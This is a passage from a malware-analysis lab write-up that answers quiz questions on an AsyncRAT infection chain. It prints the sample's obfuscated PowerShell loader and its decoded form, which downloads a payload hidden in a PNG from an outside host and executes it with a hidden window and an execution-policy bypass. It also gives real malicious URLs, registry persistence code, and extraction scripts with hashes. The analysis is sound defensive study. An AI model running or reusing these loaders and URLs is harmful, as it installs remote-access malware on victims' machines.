$Codigo = 'JGltYWdlVXJsID0gJ2h0dHBzOi8vZ2Nk♛♚mIucGJyZC5j♛♚y9p♛♚WFnZXMvcllzcHhrelQzSzZrLnBuZyc7JHdlYkNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJD♛♚Gll♛♚nQ7JGltYWdlQnl0ZXMgPSAkd2ViQ2xpZW50LkRvd25s♛♚2FkRGF0YSgkaW1hZ2VVcmwpOyRp♛♚WFnZVRleHQgPSB♛♚U3lzdGVtLlRleHQuRW5j♛♚2Rp♛♚mddOjpVVEY4LkdldFN0cmluZygkaW1hZ2VCeXRlcyk7JHN0YXJ0RmxhZyA9ICc8PEJBU0U2NF9TVEFSVD4+JzskZW5kRmxhZyA9ICc8PEJBU0U2NF9FTkQ+Pic7JHN0YXJ0SW5kZXggPSAkaW1hZ2VUZXh0LkluZGV4T2YoJHN0YXJ0RmxhZyk7JGVuZEluZGV4ID0gJGltYWdlVGV4dC5J♛♚mRleE9mKCRl♛♚mRG♛♚GFnKTskc3RhcnRJ♛♚mRleCAtZ2UgMCAtYW5kICRl♛♚mRJ♛♚mRleCAtZ3QgJHN0YXJ0SW5kZXg7JHN0YXJ0SW5kZXggKz0gJHN0YXJ0RmxhZy5MZW5ndGg7JGJhc2U2NExl♛♚md0aCA9ICRl♛♚mRJ♛♚mRleCAtICRzdGFydEluZGV4OyRiYXNlNjRD♛♚21tYW5kID0gJGltYWdlVGV4dC5TdWJzdHJp♛♚mcoJHN0YXJ0SW5kZXgsICRiYXNlNjRMZW5ndGgpLlRvQ2hhckFycmF5KCk7W2FycmF5XTo6UmV2ZXJzZSgkYmFzZTY0Q29t♛♚WFuZCk7JGJhc2U2NENv♛♚W1h♛♚mQ9LWpvaW4gJGJhc2U2NENv♛♚W1h♛♚mQ7JGNv♛♚W1h♛♚mRCeXRlcyA9IFtTeXN0ZW0uQ29udmVydF06OkZy♛♚21CYXNlNjRTdHJp♛♚mcoJGJhc2U2NENv♛♚W1h♛♚mQpOyR0ZW1wRXhlUGF0aCA9IFtTeXN0ZW0uSU8uUGF0aF06OkdldFRl♛♚XBQYXRoKCkgKyB♛♚U3lzdGVtLkd1aWRdOjpOZXdHdWlkKCkuVG9TdHJp♛♚mcoKSArICIuZXhlIjt♛♚U3lzdGVtLklPLkZp♛♚GVdOjpXcml0ZUFs♛♚EJ5dGVzKCR0ZW1wRXhlUGF0aCwgJGNv♛♚W1h♛♚mRCeXRlcyk7cG93ZXJzaGVs♛♚C5leGUgLXdp♛♚mRvd3N0eWxlIGhpZGRl♛♚iAtZXhlY3V0aW9ucG9saWN5IGJ5cGFzcyAtTm9Qcm9maWxlIC1j♛♚21tYW5kICR0ZW1wRXhlUGF0aA==';
$OWjuxd = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($codigo.replace('♛♚','b') ));
powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxd
```

Once deobfuscated, we see the JavaScript builds a PowerShell command. And a variable named $Codigo holds a large obfuscated base64 string.

✅ **Answer**: Codigo

## 📌 Q2. As you trace the AsyncRAT’s steps, you come across a pivotal moment where it reaches out to the internet, fetching the next phase of its invasion. Identify the URL used to download the second stage of this malicious campaign.

From Q1, we extracted the PowerShell script stored in $Codigo.

Using [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%E2%99%9B%E2%99%9A'%7D,'b',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=SkdsdFlXZGxWWEpzSUQwZ0oyaDBkSEJ6T2k4dloyTmvimZvimZptSXVjR0p5WkM1auKZm%2BKZmnk5cOKZm%2BKZmldGblpYTXZjbGx6Y0hocmVsUXpTelpyTG5CdVp5YzdKSGRsWWtOc2FXVnVkQ0E5SUU1bGR5MVBZbXBsWTNRZ1UzbHpkR1Z0TGs1bGRDNVhaV0pE4pmb4pmaR2xs4pmb4pmablE3SkdsdFlXZGxRbmwwWlhNZ1BTQWtkMlZpUTJ4cFpXNTBMa1J2ZDI1c%2BKZm%2BKZmjJGa1JHRjBZU2drYVcxaFoyVlZjbXdwT3lScOKZm%2BKZmldGblpWUmxlSFFnUFNC4pmb4pmaVTNsemRHVnRMbFJsZUhRdVJXNWrimZvimZoyUnDimZvimZptZGRPanBWVkVZNExrZGxkRk4wY21sdVp5Z2thVzFoWjJWQ2VYUmxjeWs3SkhOMFlYSjBSbXhoWnlBOUlDYzhQRUpCVTBVMk5GOVRWRUZTVkQ0K0p6c2taVzVrUm14aFp5QTlJQ2M4UEVKQlUwVTJORjlGVGtRK1BpYzdKSE4wWVhKMFNXNWtaWGdnUFNBa2FXMWhaMlZVWlhoMExrbHVaR1Y0VDJZb0pITjBZWEowUm14aFp5azdKR1Z1WkVsdVpHVjRJRDBnSkdsdFlXZGxWR1Y0ZEM1SuKZm%2BKZmm1SbGVFOW1LQ1Js4pmb4pmabVJH4pmb4pmaR0ZuS1Rza2MzUmhjblJK4pmb4pmabVJsZUNBdFoyVWdNQ0F0WVc1a0lDUmzimZvimZptUkrimZvimZptUmxlQ0F0WjNRZ0pITjBZWEowU1c1a1pYZzdKSE4wWVhKMFNXNWtaWGdnS3owZ0pITjBZWEowUm14aFp5NU1aVzVuZEdnN0pHSmhjMlUyTkV4bOKZm%2BKZmm1kMGFDQTlJQ1Js4pmb4pmabVJK4pmb4pmabVJsZUNBdElDUnpkR0Z5ZEVsdVpHVjRPeVJpWVhObE5qUkTimZvimZoyMXRZVzVrSUQwZ0pHbHRZV2RsVkdWNGRDNVRkV0p6ZEhKcOKZm%2BKZmm1jb0pITjBZWEowU1c1a1pYZ3NJQ1JpWVhObE5qUk1aVzVuZEdncExsUnZRMmhoY2tGeWNtRjVLQ2s3VzJGeWNtRjVYVG82VW1WMlpYSnpaU2drWW1GelpUWTBRMjl04pmb4pmaV0Z1WkNrN0pHSmhjMlUyTkVOduKZm%2BKZmlcxaOKZm%2BKZmm1ROUxXcHZhVzRnSkdKaGMyVTJORU524pmb4pmaVzFo4pmb4pmabVE3SkdOduKZm%2BKZmlcxaOKZm%2BKZmm1SQ2VYUmxjeUE5SUZ0VGVYTjBaVzB1UTI5dWRtVnlkRjA2T2taeeKZm%2BKZmjIxQ1lYTmxOalJUZEhKcOKZm%2BKZmm1jb0pHSmhjMlUyTkVOduKZm%2BKZmlcxaOKZm%2BKZmm1RcE95UjBaVzF3UlhobFVHRjBhQ0E5SUZ0VGVYTjBaVzB1U1U4dVVHRjBhRjA2T2tkbGRGUmzimZvimZpYQlFZWFJvS0NrZ0t5QuKZm%2BKZmlUzbHpkR1Z0TGtkMWFXUmRPanBPWlhkSGRXbGtLQ2t1Vkc5VGRISnDimZvimZptY29LU0FySUNJdVpYaGxJanTimZvimZpVM2x6ZEdWdExrbFBMa1pw4pmb4pmaR1ZkT2pwWGNtbDBaVUZz4pmb4pmaRUo1ZEdWektDUjBaVzF3UlhobFVHRjBhQ3dnSkdOduKZm%2BKZmlcxaOKZm%2BKZmm1SQ2VYUmxjeWs3Y0c5M1pYSnphR1Zz4pmb4pmaQzVsZUdVZ0xYZHDimZvimZptUnZkM04wZVd4bElHaHBaR1Js4pmb4pmaaUF0WlhobFkzVjBhVzl1Y0c5c2FXTjVJR0o1Y0dGemN5QXRUbTlRY205bWFXeGxJQzFq4pmb4pmaMjF0WVc1a0lDUjBaVzF3UlhobFVHRjBhQT09&oenc=65001) I clean up the ♚♛ markers and decode the base64 string.

```powershell
$imageUrl = 'https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png';
$webClient = New-Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);
$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;
$base64Command = $imageText.Substring($startIndex, $base64Length).ToCharArray();
[array]::Reverse($base64Command);
$base64Command=-join $base64Command;
$commandBytes = [System.Convert]::FromBase64String($base64Command);$tempExePath = [System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";[System.IO.File]::WriteAllBytes($tempExePath, $commandBytes);

powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $tempExePath
```

This script is used to download an image from the URL https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png, it then extract an executable between the two markers <<BASE64_START>> and <<BASE64_END>>.
The downloaded image is the one we have from the lab.

✅ **Answer**: The URL used to download the second stage of this malicious campaign is **https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png**

## 📌 Q3. Within the chaos of encoded data retrieved during your investigation, there's a string that signals the beginning of the encoded code. What is this marker indicating where the encoded treasure lies within the downloaded file?

✅ **Answer**: This marker indicating where the encoded treasure lies within the downloaded file is **<<BASE64_START>>**

## 📌 Q4. The second stage of AsyncRAT has been meticulously unpacked, revealing an extracted Portable Executable (PE). To understand this stage's uniqueness, what is the MD5 hash of this extracted PE?

We downloaded the image from Q2 and extracted the base64 string between the <<BASE64_START>> and <<BASE64_END>> markers.

To extract the paylaod I use this powershell script :

```powershell
$imagepath = '/home/kali/Documents/AsyncRAT/rYspxkzT3K6k.png'
$imageBytes = [System.IO.File]::ReadAllBytes($imagepath);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);

$startIndex -ge 0 -and $endIndex -gt $startIndex;
$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;
$base64Command = $imageText.Substring($startIndex, $base64Length).ToCharArray();
#[array]::Reverse($base64Command);
$base64Command=-join $base64Command;
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$tempExePath = [System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";
[System.IO.File]::WriteAllBytes($tempExePath, $commandBytes);
Echo $tempExePath

```

Once executed and running MD5 to it:

```shell
┌──(kali㉿kali)-[/home/kali/Documents/AsyncRAT]
└─PS> ./extract_stage2.ps1                                                                                                                                                                  
True
/tmp/140b91b2-f06e-458a-9f94-200727d741f9.exe

┌──(kali㉿kali)-[/home/kali/Documents/AsyncRAT]
└─PS> file /tmp/140b91b2-f06e-458a-9f94-200727d741f9.exe                                                                                                                                    
/tmp/140b91b2-f06e-458a-9f94-200727d741f9.exe: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections

┌──(kali㉿kali)-[/home/kali/Documents/AsyncRAT]
└─PS> md5sum /tmp/140b91b2-f06e-458a-9f94-200727d741f9.exe                                                                                                                                  
c1aa076ca869a7520ca2e003b7c02ab3  /tmp/140b91b2-f06e-458a-9f94-200727d741f9.exe

```

✅ **Answer**: **c1aa076ca869a7520ca2e003b7c02ab3**

## 📌 Q5. AsyncRAT seeks to embed itself within the system for long-term espionage. During your sweep, you stumble upon a registry key intended for persistence. Can you provide the full path of this registry key where the malware attempts to solidify its presence?

Here, my first idea was to use IDA for decompiling it. But once I opening it, it does not look a great idea... After seeing the tool proposed by the authors I found DnSpy (a .NET decompiler)..

After looking at some function and library the ClassLibrary3 stand out with a function named Run



Looking deeper, we see the function **OpenSubKey** for the registry `SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run`, this registry key is a common persistence mechanism. Any executable listed here will run when the user logs in.

```java
RegistryKey registryKey = Registry.CurrentUser.OpenSubKey(Strings.StrReverse("nuR\\noisreVtnerruC\\swodniW\\tfosorciM\\ERAWTFOS"), true);
```

✅ **Answer**: HKCU\Software\Microsoft\Windows\CurrentVersion\Run

## 📌 Q6. Your analysis doesn't stop at the second stage; the malware has more secrets to unveil. A third stage is downloaded from a URL you need to uncover. What is the URL from which the malware downloads the third stage?


Back in ClassLibrary3.dll, the Run() method also contains a second URL:

```java

    string address = Strings.StrReverse("gnp.sYrRgnE1MG3L/segami/oc.drbp.bndcg//:sptth/_fi15123110704202/bew/gro.evihcra.bew//:sptth");
    byte[] bytes = new WebClient().DownloadData(address);
    string @string = Encoding.UTF8.GetString(bytes);
    string text = "<<BASE64_START>>";
    string value = "<<BASE64_END>>";
    int num = @string.IndexOf(text);
    int num2 = @string.IndexOf(value);
    if (num >= 0 && num2 > num)
    {
        num += text.Length;
        int length = num2 - num;
        string text2 = @string.Substring(num, length);
        string text3 = new WebClient().DownloadString(Strings.StrReverse(Conversions.ToString(LAbWJK)));
        text3 = Strings.StrReverse(text3);
```

✅ **Answer**: After reversing it, the URL of the third stage is
`https://web.archive.org/web/20240701132151if_/https://gcdnb.pbrd.co/images/L3GM1EngRrYs.png`

## 📌 Q7. With the third stage of AsyncRAT now in focus, another Portable Executable (PE) comes to light. For a comprehensive understanding of this stage, what is the MD5 hash of the extracted PE from the third stage?

We downloaded the **L3GM1EngRrYs.png** file and used a PowerShell script to extract the base64 payload. Just like the second stage, we decoded the base64 string, wrote it to a .exe, and calculated the hash:

```powershell
$imagepath = '/home/kali/Documents/AsyncRAT/L3GM1EngRrYs.png'                               
$imageBytes = [System.IO.File]::ReadAllBytes($imagepath);   
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);                            
$startFlag = '<<BASE64_START>>';                
$endFlag = '<<BASE64_END>>';                      
$startIndex = $imageText.IndexOf($startFlag);    
$endIndex = $imageText.IndexOf($endFlag);                                                       
                                
$startIndex -ge 0 -and $endIndex -gt $startIndex;                                 
$startIndex += $startFlag.Length;              
$base64Length = $endIndex - $startIndex;              
$base64Command = $imageText.Substring($startIndex, $base64Length).ToCharArray();     
[array]::Reverse($base64Command);
$base64Command=-join $base64Command;       
$commandBytes = [System.Convert]::FromBase64String($base64Command);   
$tempExePath = [System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";
[System.IO.File]::WriteAllBytes($tempExePath, $commandBytes);
Echo $tempExePath   
```

Once executed

```powershell
┌──(kali㉿kali)-[/home/kali/Documents/AsyncRAT]
└─PS> ./extract_stage3.ps1                                                                      
True
/tmp/07a4b2cc-6384-4d75-a879-c04e135dd484.exe

┌──(kali㉿kali)-[/home/kali/Documents/AsyncRAT]
└─PS> file /tmp/07a4b2cc-6384-4d75-a879-c04e135dd484.exe                                      
/tmp/07a4b2cc-6384-4d75-a879-c04e135dd484.exe: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections

┌──(kali㉿kali)-[/home/kali/Documents/AsyncRAT]
└─PS> md5sum /tmp/07a4b2cc-6384-4d75-a879-c04e135dd484.exe                                          
3c63488040bb51090f2287418b3d157d  /tmp/07a4b2cc-6384-4d75-a879-c04e135dd484.exe
```

✅ **Answer**: 3C63488040BB51090F2287418B3D157D